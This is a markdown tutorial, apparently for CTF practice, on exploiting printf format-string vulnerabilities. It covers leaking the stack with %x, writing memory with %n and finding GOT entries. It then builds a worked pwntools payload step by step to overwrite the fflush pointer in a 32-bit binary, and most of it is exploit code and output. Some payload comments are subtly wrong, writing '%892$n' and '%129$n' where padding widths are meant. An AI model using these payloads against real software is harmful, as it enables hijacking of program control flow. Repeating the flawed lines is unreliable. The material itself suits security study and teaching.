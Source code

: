 # Format Strings

## Identification

Look for `printf()` family functions that do not handle user input correctly.  
E.g. `printf(user_input);`  

## Find Your Input in Memory

In the vulnerable input field, provide an easily identifiable sequence of characters, e.g. `aaaabbbbccccdddd`  
followed by many `.%x` sequences. In the output, look for `61616161.62626262.63636363.64646464`.  

E.g.: Input: `aaaabbbb.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x` becomes  
Output: `aaaabbbb.8048914.ff811298.ff811330.ff8112a4.f7ee7444.f781f0e6.ff811564.abeb6602.f7ed64a0.61616161.62626262.2e78252e.252e7825.78252e78`  

You can then drill down to the specific leaks with `%10$x`, i.e. print the 10th hex value (dword size on 32bit,  qword on 64bit)  
Using the above example: `aaaabbbb.%10$x.%11$x` becomes: `aaaabbbb.61616161.62626262`  

## Writing to Memory

`%n` indicates how long a formatted string is at run time.  
When the `%n` is encountered during printf processing, the number of characters up to the current point  
are written to the address argument corresponding to the format specifier.  

E.g. `\xc8\x97\x04\x08.%x.%x.%.100x.%n` would write the integer `110` to the address `0x080497c8`.  
Each byte in the address counts as 1, each %x counts as 1, each '.' counts as 1, and the `%.100x` counts for 100.  
Address = 4,  
%x's = 2,  
'.' = 4,  
%.100x = 100,  
Total = 110.  

## Finding a Function to Overwite

Look for a function just after the vulnerable `printf()` function call.  
Ghidra (or another disassembler) can be used.  

`objdump -R <vulnerable_binary> | grep <function_after_printf)` will find that functions address within the binary (linux PIE disabled).  
Or open the binary in GBD, break on main (or anywhere) and run the binary, then type `got` into GDB and  
look for the desired function to overwrite (also PIE disabled).  

## Multiple Writes

If you want to overwrite a function pointer, to point to a different function (see the section on finding  
a function to overwrite) you need to perform multiple writes.  

If you want to overwrite the `fflush()` pointer that is found at `0x0804a028` you will  
need to perform writes at `0x0804a028`, `0x0804a029`, `0x0804a02a` and `0x0804a02b`.  
Depending on each starting value and what you need to change it to, you may need to  
write a number of bytes that overflows into into the next byte, setting that.  
E.g. Writing to `0x0804a028` to set the 1st byte, writing to `0x0804a029` to set  
the 2nd and 3rd byte, then `0x0804a02b` to set the 4th byte.  

Using the example: `aaaabbbb.%10$x.%11$x` becomes: `aaaabbbb.61616161.62626262`  
Print values and analyse in GDB: 
```python3
# desired value = 0x0804870b
payload = flat ([
  fflush_ptr0, # 0x0804a028 - pointers to each byte to change
  fflush_ptr1, # 0x0804a029
  fflush_ptr2, # 0x0804a02b
  fmt0, # %10$n - writing bytes at the 10th position
  fmt1, # %11$n - writing bytes at the 11th position
  fmt2  # %12$n - writing bytes at the 12th position
])
```

Observe the starting value of the pointer: `x/2wx 0x0804a028` = `0x52005252`  

Our first write (LSB) needs to increase from `0x52` to `0x0b` (`0x10b`)  
0x10b - 0x52 = 0xb9 OR (int) 185.  

Update the paylaod and rerun to determine the second bytes' calculation:  
```python3
# desired value = 0x0804870b
payload = flat ([
  fflush_ptr0, # 0x0804a028 - pointers to each byte to change
  fflush_ptr1, # 0x0804a029
  fflush_ptr2, # 0x0804a02b
  flag_val0, # b"%185x" - Write 185 bytes, plus the original 82 bytes (0x52) = 0x10b
  fmt0, # %10$n - writing 0x10b at the 10th position (fflush_ptr0)
  fmt1, # %11$n - writing bytes at the 11th position
  fmt2  # %12$n - writing bytes at the 12th position
])
```

Observe the value of the pointer now contains: `x/2wx 0x0804a028` = `0x0b010b0b` 

Second write needs to increase 2nd and 3rd bytes from `0x010b` to `0x0487`.  
0x487 - 0x10b = 0x37c OR (int) 892.  

Update the paylaod and rerun to determine the second bytes' calculation:  
```python3
# desired value = 0x0804870b
payload = flat ([
  fflush_ptr0, # 0x0804a028 - pointers to each byte to change
  fflush_ptr1, # 0x0804a029
  fflush_ptr2, # 0x0804a02b
  flag_val0, # b"%185x" - Write 185 bytes, plus the original 82 bytes (0x52) = 0x10b
  fmt0, # %10$n - writing 0x10b at the 10th position (fflush_ptr0)
  flag_val1, # b"%892$n" - Write 892 bytes, plus the original 267 bytes (0x10b) = 0x487
  fmt1, # %11$n - writing bytes at the 11th position
  fmt2  # %12$n - writing bytes at the 12th position
])
```

Observe the value of the pointer now contains: `x/2wx 0x0804a028` = `0x8704870b` 

Third write needs to increase the 4th byte from `0x87` to `0x08` (`0x108`).  
0x108 - 0x87 = 0x81 OR (int) 129.  

Update the paylaod and rerun to determine the second bytes' calculation:  
```python3
# desired value = 0x0804870b
payload = flat ([
  fflush_ptr0, # 0x0804a028 - pointers to each byte to change
  fflush_ptr1, # 0x0804a029
  fflush_ptr2, # 0x0804a02b
  flag_val0, # b"%185x" - Write 185 bytes, plus the original 82 bytes (0x52) = 0x10b
  fmt0, # %10$n - writing 0x10b at the 10th position (fflush_ptr0)
  flag_val1, # b"%892$n" - Write 892 bytes, plus the original 267 bytes (0x10b) = 0x487
  fmt1, # %11$n - writing bytes at the 11th position
  flag_val2, # b"%129$n" - Write 129 bytes, plus the original 135 bytes (0x87) = 0x108
  fmt2  # %12$n - writing bytes at the 12th position
])
```

Observe the value of the pointer now contains: `x/2wx 0x0804a028` = `0x0804870b` our desired value.  
